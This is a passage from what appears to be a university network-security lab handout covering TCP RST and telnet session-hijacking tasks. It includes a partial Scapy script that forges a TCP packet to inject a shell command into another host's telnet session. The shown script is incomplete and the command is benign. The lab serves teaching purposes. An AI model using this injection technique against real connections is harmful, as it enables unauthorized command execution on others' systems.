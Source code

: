 
On __Host A__ (cmsc334-1)  run the __rst_attack.py__ Python script.
```shell
$ chmod u+x rst_attack.py
$ ./rst_attack.py
```

Verify that the `telnet` connection was dropped.

- In the `README.md` file for this module explain how the __rst_attack.py__ Python script works and the results of your experiment. 


## Task 3: TCP Session Hijacking

__Note:__ 
- Use cmsc334-2 as the host that you will use to `telnet` into cmsc334-1.
- Use cmsc334-2 to launch the hijacking attack.

![Session Hijack](../assets/images/TCPSessionHijack.png "Session Hijack")

__Figure 3.__ TCP Session Hijacking Attack

The objective of the TCP Session Hijacking attack is to hijack an existing TCP connection (session) between two victims by injecting malicious contents into this session. If this connection is a `telnet` session, attackers can inject malicious commands (e.g. deleting an important file) into this session, causing the victims to execute the malicious commands. Figure 3 depicts how the attack works. In this task, you need to demonstrate how you can hijack a `telnet` session between two computers. Your goal is to get the `telnet` server to run a malicious command from you. For the simplicity of the task, we assume that the attacker and the victim are on the same LAN.

Launching the attack. Please use Scapy to conduct the TCP Session Hijacking attack. Python code is provided in the following: (Change the name of the file `/tmp/test1234` in the program below to a unique name.)

__tcp_hijack.py__
```Python
#!/usr/bin/env python
from scapy.all import *

# cmsc334-1 : 172.18.123.6
# cmsc334-2 : 172.18.123.5

def hijack(pkt):
    sniffed_ip = pkt[IP]
    sniffed_tcp = pkt[TCP]
    newseq = sniffed_tcp.seq + 10
    newack = sniffed_tcp.ack + 1

    ip = IP(src="172.18.123.5", dst="172.18.123.6")
    tcp = TCP(sport=sniffed_tcp.sport, dport=23,
              flags="A", seq=newseq, ack=newack)  # A flag is the acknowledgement ACK
    
    data = "\ntouch /tmp/test1234\n"
    pkt = ip/tcp/data

    ls(pkt)
```